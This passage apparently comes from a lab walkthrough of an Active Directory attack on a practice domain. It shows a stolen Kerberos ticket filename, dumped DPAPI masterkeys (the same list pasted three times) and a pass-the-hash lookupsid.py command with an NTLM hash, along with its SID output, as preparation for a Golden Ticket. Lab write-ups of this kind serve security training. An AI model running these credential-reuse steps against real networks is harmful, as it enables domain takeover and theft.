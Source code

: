 `TGT_NORTH.SEVENKINGDOMS.LOCAL_robb.stark_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_ff508b0c_20250108071403.kirbi`

### Masterkeys

```
{3d4f266a-de48-4dfb-9c6a-66199d459c70}:653eb6c7703e25902ed8155e7155c143cbfdc1c0
{33bfcf95-1f92-4e5e-b6a7-9cb352a2f974}:06d70e6e1288db973a8c9c90068dbed7a619f357
{83cc6bf8-de96-4c69-9873-fa92c33d7472}:3b7ae371d4d1bcb30079333710352f8dbd447a8c
{c824016c-86f8-40d7-80b9-8b8cb456dffd}:05815587d7906ebd6a7704bc859a9b9c7af666f2
{dadb3c63-2a33-4d51-a5a9-195d30522492}:66f6ad8f61a8bf24e5d1531750ec8b6c465b31a6
{df4fb521-2ef6-466b-b985-ba986c151ace}:d5386dd8bb8ceb3a1b7c059a896d71f3ced221ad
{4d72c6d2-f696-4db2-a537-d87f70307e10}:17ec2cd5ac955dacf1b59054f7686e3cf8f28238
{3d4f266a-de48-4dfb-9c6a-66199d459c70}:653eb6c7703e25902ed8155e7155c143cbfdc1c0
{33bfcf95-1f92-4e5e-b6a7-9cb352a2f974}:06d70e6e1288db973a8c9c90068dbed7a619f357
{83cc6bf8-de96-4c69-9873-fa92c33d7472}:3b7ae371d4d1bcb30079333710352f8dbd447a8c
{c824016c-86f8-40d7-80b9-8b8cb456dffd}:05815587d7906ebd6a7704bc859a9b9c7af666f2
{dadb3c63-2a33-4d51-a5a9-195d30522492}:66f6ad8f61a8bf24e5d1531750ec8b6c465b31a6
{df4fb521-2ef6-466b-b985-ba986c151ace}:d5386dd8bb8ceb3a1b7c059a896d71f3ced221ad
{4d72c6d2-f696-4db2-a537-d87f70307e10}:17ec2cd5ac955dacf1b59054f7686e3cf8f28238
{3d4f266a-de48-4dfb-9c6a-66199d459c70}:653eb6c7703e25902ed8155e7155c143cbfdc1c0
{33bfcf95-1f92-4e5e-b6a7-9cb352a2f974}:06d70e6e1288db973a8c9c90068dbed7a619f357
{83cc6bf8-de96-4c69-9873-fa92c33d7472}:3b7ae371d4d1bcb30079333710352f8dbd447a8c
{c824016c-86f8-40d7-80b9-8b8cb456dffd}:05815587d7906ebd6a7704bc859a9b9c7af666f2
{dadb3c63-2a33-4d51-a5a9-195d30522492}:66f6ad8f61a8bf24e5d1531750ec8b6c465b31a6
{df4fb521-2ef6-466b-b985-ba986c151ace}:d5386dd8bb8ceb3a1b7c059a896d71f3ced221ad
{4d72c6d2-f696-4db2-a537-d87f70307e10}:17ec2cd5ac955dacf1b59054f7686e3cf8f28238
```


# Golden Ticket

## Finding SID

`lookupsid.py -hashes aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8 NORTH/EDDARD.STARK@10.4.10.22`

Result:

```
[*] Brute forcing SIDs at 10.4.10.22
[*] StringBinding ncacn_np:10.4.10.22[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-3779674392-1109536343-705869415
500: CASTELBLACK\Administrator (SidTypeUser)
501: CASTELBLACK\Guest (SidTypeUser)
503: CASTELBLACK\DefaultAccount (SidTypeUser)
504: CASTELBLACK\WDAGUtilityAccount (SidTypeUser)
513: CASTELBLACK\None (SidTypeGroup)
1000: CASTELBLACK\localuser (SidTypeUser)
1001: CASTELBLACK\SQLServer2005SQLBrowserUser$CASTELBLACK (SidTypeAlias)
```

---------------
